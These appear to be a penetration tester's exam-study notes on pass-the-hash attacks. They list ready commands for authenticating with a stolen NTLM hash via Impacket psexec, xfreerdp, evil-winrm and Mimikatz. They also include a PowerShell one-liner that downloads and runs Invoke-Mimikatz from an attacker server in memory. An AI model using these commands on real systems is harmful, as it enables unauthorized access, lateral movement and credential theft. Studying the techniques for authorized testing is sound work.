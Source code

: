 # <h1 align="center" id="heading">PassTheHash</h1>
There are many ways that I can go about passing a NTLM hash to a remote system. I will outline a few of the most useful for the exam scenario. The first one that I can use is Impacket's psexec.py
```console
~/tools/impacket/examples/psexec.py <domain>/<user>@<target> -hashes :<ntlm hash>
```
I can also use xfreerdp to PTH if the user is authorized to use RDP. I will use the following command to accomplish this task:
```console
xfreerdp /u:<user> /pth:<ntlm hash> /v:<target> /d:<domain> /cert-ignore /dynamic-resolution +toggle-fullscreen
```
If the user has access to WIN-RM, I can use evil-winrm to PassTheHash and obtain a session on the target system. I can use the following command to accomplish this task:
```console
evil-winrm -u <user> -H <ntlm hash> -i <tgt ip>
```
This attack is also possible through the use of Mimikatz. I will first need to upload the file to the target and then I can run the following commands to PassTheHash and launch a PowerShell session in the context of the target user:
```powershell
.\mimikatz64.exe
```
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:powershell.exe
```
I can also perform the same attack with Invoke-Mimikaz. This is advantageous because I do not have to write the file to disk. I can accomplish this task with the following command:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:powershell.exe"' 
```
